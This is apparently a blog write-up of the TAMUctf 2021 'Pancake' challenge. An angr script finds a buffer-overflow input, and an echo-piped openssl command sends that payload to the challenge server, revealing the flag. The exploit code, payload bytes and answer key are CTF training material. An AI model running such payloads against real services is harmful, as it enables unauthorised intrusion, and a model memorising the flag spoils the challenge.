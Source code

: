 ```yaml
---
title: "TAMUctf 2021 Pancake Solution"
slug: "pancake-writeup"
date: "2021-04-26 11:39:00.000000"
author_name: "Javantea"
author_email: "jvoss@altsci.com"
draft: false
toc: false
images:
---
```


TAMUctf 2021
[Encoding](https://ctftime.org/task/15793) - 100 points

>    Attack this binary to get the flag!
>    [pancake](https://tamuctf.com/static-files/pancake)
>    `openssl s_client -connect tamuctf.com:443 -servername pancake -quiet`

Pancake is an easy exploitation challenge I think. I decided to use [angr](https://angr.io/) and was pleasantly surprised that it solved it quite rapidly. It uses the standard format for angr solutions that I've been using for years. I don't know what the exploit payload does. It's not clear at all to me what is going on except that the exploit must have been pretty straightforward. Please look at [angr's documentation](https://github.com/angr/angr-doc/) if you are as impressed as I was with this result.

```python
import angr

p = angr.Project('pancake')

sm = p.factory.simulation_manager()

sm.explore(find=lambda st:(st.posix.dumps(1) != b'' and not st.posix.dumps(1).startswith(b'Try again, you got')))

# stdout is proof of our solution.
sm.found[0].posix.dumps(1)
b'flag: \x80@ \x01\x10\x02\x08\x02\x04\x02   \x10\x80\x01\x02\x08\x10 \x02\x08@\x01\x01 \x01\x02\x10\x08\x80\x01\x10\x10\x02\x10\x08 \x80\x10\x10\x04\x04\x80@\x01\x04\x08\x80\x01\x80\x01 \x80 \x01\x10\x80@\n'

# stdin is the payload that causes the solution to occur.
sm.found[0].posix.dumps(0)
b'\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf4\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\x88f@\x08\xf5\xf5\xf5\xf5\xf5\xf5\x00'

exit(1)

```

```sh
 (echo -e '\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf4\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\x88f@\x08\xf5\xf5\xf5\xf5\xf5\xf5'; cat) | openssl s_client -connect tamuctf.com:443 -servername pancake -quiet
depth=0 CN = hulkcybr1
verify error:num=18:self signed certificate
verify return:1
depth=0 CN = hulkcybr1
verify return:1
flag: gigem{b4s1c_b4ff3r_0verfl0w_g03s_y33t}
```

The flag is `gigem{b4s1c_b4ff3r_0verfl0w_g03s_y33t}`

